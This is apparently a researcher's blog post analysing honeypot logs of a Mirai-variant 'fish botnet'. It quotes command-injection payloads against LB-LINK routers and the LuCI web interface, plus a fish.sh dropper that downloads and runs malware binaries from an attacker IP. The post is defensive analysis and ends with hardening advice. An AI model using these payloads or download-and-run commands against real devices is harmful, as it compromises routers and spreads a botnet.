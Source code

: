 ```yaml
---
layout: post
title:  "Fish Botnet"
date:   2024-01-21 10:25:33 +0100
category: malware
tags: malware reverse-engineering honey-pot ghidra
--- 
```


The honey pot has caught a fish, so I guess its more of a fishing net? 

It has logged two entries from a "fish botnet" 

The first attack appears to be attempting to exploit a [vulnerability in LB-LINK routers.](https://www.akamai.com/blog/security-research/cve-2023-26801-exploited-spreading-mirai-botnet) It does this by performing a `POST` to `/goform/set_LimitClient_cfg` and injects commands into the `mac` field.

The command causes the device to download and execute the malware.

```
07:51:59.583 Handling POST to /goform/set_LimitClient_cfg request from 96.127.160.234
>>>Headers: HoneyPotIp:8080 t.me/DeltaApi 150 user=admin gzip 
>>>Body: time1=00:00-00:00&time2=00:00-00:00&mac=; cd /tmp  cd /var/run  cd /mnt  cd /root  cd /; wget http://193.111.248.58/mipsel; chmod 777 mipsel; ./mipsel
07:51:59.584 completed response status 200
```


The second entry performs a similar attack but looks like its attempting to exploit vulnerabilities in [LuCI web interface](https://openwrt.org/docs/guide-user/luci/start)

```
09:10:53.617 Handling POST to /cgi-bin/luci/;stok=/locale?form=country request from 194.48.250.103
>>>Headers: identity application/x-www-form-urlencoded 152 HoneyPotIp:8080 Mozilla/5.0 (X11; Linux x86_64; rv:101.0) Gecko/20100101 Firefox/101.0 close 
>>>Body: operation=write&country=$(id>`cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; 193.111.248.58/fish.sh; chmod 777 fish.sh; sh fish.sh; history -c`)
09:10:53.619 completed response status 200
```
This attack is slightly different to the first, but is more common to what we have seen in the past. This attack downloads and runs a `sh` (named fish.sh) file rather than downloading the malware binary directly. The `sh` file is used to download and run the malware compiled for different architectures

*fish.sh:*
```
cd /tmp; cd /run; cd /root; cd /; wget http://193.111.248.58/mipsel; chmod 777 mipsel; ./mipsel
cd /tmp; cd /run; cd /root; cd /; wget http://193.111.248.58/mips; chmod 777 mips; ./mips
cd /tmp; cd /run; cd /root; cd /; wget http://193.111.248.58/arm; chmod 777 arm; ./arm
cd /tmp; cd /run; cd /root; cd /; wget http://193.111.248.58/arm5; chmod 777 arm5; ./arm5
cd /tmp; cd /run; cd /root; cd /; wget http://193.111.248.58/arm6; chmod 777 arm6; ./arm6
cd /tmp; cd /run; cd /root; cd /; wget http://193.111.248.58/arm7; chmod 777 arm7; ./arm7
cd /tmp; cd /run; cd /root; cd /; wget http://193.111.248.58/x86_64; chmod 777 x86_64; ./x86_64
cd /tmp; cd /run; cd /root; cd /; wget http://193.111.248.58/i686; chmod 777 i686; ./i686
cd /tmp; cd /run; cd /root; cd /; wget http://193.111.248.58/1586; chmod 777 1586; ./1586
cd /tmp; cd /run; cd /root; cd /; wget http://193.111.248.58/sh4; chmod 777 sh4; ./sh4
cd /tmp; cd /run; cd /root; cd /; wget http://193.111.248.58/arc; chmod 777 arc; ./arc

```


This appears to be yet another [Mirai](https://en.wikipedia.org/wiki/Mirai_(malware)) variant, possibly based on Moobot or Satori.
By using [Ghidra](https://ghidra-sre.org/) we can see it contains the string `w5q6he3dbrsgmclkiu4to18npavj702f` 

[![Strings](/assets/img/fish-botnet/strings.png)](/assets/img/fish-botnet/strings.png)

This string also appears to be found in [Moobot variants](https://threatpost.com/moobot-botnet-hikvision-surveillance-systems/176879/) 


Most of the web-servers that are used to host malware either don't contain HTML pages or are just left with the default pages for Apache HTTP or nginx etc 

Interestingly this server does contain an index page which displays a picture of a fish 

```
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Fish Botnet</title> <!-- Title of the webpage -->
    <style type="text/css">
        html, body {
            height: 100%;
            margin: 0;
            padding: 0;
            display: flex;
            justify-content: center;
            align-items: center;
            background-color: #121212; /* Dark background */
            color: #ffffff; /* Light text color for contrast */
            font-family: monospace;
        }
        .centered {
            text-align: center;
        }
        img {
            width: 1000px;
            height: 1000px;
        }
    </style>
</head>
<body>
    <div class="centered">
        <text>Available</text>
        <h1><a href="/"><img src="fishy.png" alt="fish" width="1000" height="1000"></a></h1>
    </div>
</body>
</html>
```

Say hello to fishy the fish

[![Fishy the fish](/assets/img/fish-botnet/fish-botnet-index.png)](/assets/img/fish-botnet/fish-botnet-index.png)

Fishy should be a reminder to us all to keep firmware updated, change default passwords and restrict access to devices that don't need to be exposed to the internet.
